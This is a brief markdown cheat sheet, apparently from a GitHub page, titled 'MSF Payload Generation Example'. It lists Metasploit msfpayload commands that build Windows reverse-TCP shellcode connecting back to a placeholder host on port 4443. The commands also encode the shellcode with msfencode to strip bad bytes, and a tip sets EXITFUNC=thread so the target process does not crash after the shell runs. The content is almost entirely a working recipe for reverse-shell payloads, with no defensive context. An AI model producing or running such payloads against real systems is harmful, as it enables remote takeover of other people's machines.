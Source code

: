 # MSF Payload Generation Example

```
msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 C

msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```
Use exit fuction, “exit thread” when program is multi threaded to avoid crashes after shell code execution is done: 
```
msfpayload windows/shell_reverse_tcp EXITFUNC=thread LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```
